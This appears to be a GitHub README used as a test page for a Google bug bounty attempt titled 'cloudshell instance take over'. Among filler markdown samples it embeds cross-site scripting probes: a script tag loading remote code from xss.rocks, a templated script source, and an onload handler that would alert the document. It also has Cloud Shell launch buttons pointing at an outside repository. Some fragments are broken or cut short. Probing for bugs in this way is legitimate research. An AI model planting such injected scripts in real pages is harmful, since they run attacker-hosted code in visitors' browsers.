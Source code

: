 # Google VRP testing  
Google cloudshell instance take over (as root)
<script async type="text/javascript" src="{{ js }}"></script>

<dl>
  <dt>Definition list</dt>
  <dd>Is something people use sometimes.</dd>
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

  <dt>Markdown in HTML</dt>
  <dd>Does *not* work **very** well. Use HTML <em>tags</em>.</dd>
</dl>

---

<scrp

[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)][1]

[1]: https://console.cloud.google.com/?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fgooglecloudplatform%2Fcloud-ops-sandbox&cloudshell_git_branch=0.9.4&cloudshell_tutorial=docs/walkthrough.md



<details>
  <summary>Click me</summary>
  
  ### Heading
  1. Foo
  2. Bar
     * Baz
     * Qux

  ### Some Javascript
  ```js
  function logSomething(something) {
    console.log('Something', something);
  }
  ```
</details>


### Test

<script onload="{ setTimeout(function(){ altert(document) console.log(document) },5000) }"> 

 [![Open in Cloud Shell before](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&cloudshell_open_in_editor=README.md)
